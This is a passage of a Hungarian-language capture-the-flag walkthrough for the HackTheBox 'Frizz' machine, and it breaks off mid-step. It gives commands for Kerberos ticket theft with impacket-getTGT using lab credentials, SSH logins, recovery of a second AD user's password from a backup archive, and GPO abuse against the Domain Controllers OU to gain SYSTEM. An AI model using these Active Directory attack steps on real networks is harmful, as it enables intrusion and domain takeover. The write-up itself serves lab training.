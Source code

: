 ```
sudo rdate -n frizzdc.frizz.htb
```

**TGT szerzés:**

```
impacket-getTGT frizz.htb/f.frizzle:'Jenni_Luvs_*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=f.frizzle.ccache
```

**SSH login:**

```
ssh f.frizzle@10.10.11.60 -K
```

- **User.txt megszerzése**

---

## További privesc – backup file / második user

**File:** `wapt-backup-sunday.7z` (f.frizzle Desktopján)

- Letöltve meterpreterrel vagy sima http-vel
- Belső jelszó: kinyerve, benne **újabb AD user: M.SchoolBus / !suBc**

**TGT szerzés új userhez:**

```
impacket-getTGT frizz.htb/'M.SchoolBus':'!suBc*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=M.SchoolBus.ccache
```

**SSH login:**

```
ssh M.SchoolBus@10.10.11.60 -K
```

---

## Privesc: GPO abuse, SYSTEM jog szerzése

### GPO létrehozása + GPO abuse

**Új GPO létrehozása:**

```powershell
New-GPO -Name GPO-new | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

**GPO ellenőrzés:**

```powershell
get-GPO -All
```

**Magad adminná tétele (SharpGPOAbuse):**
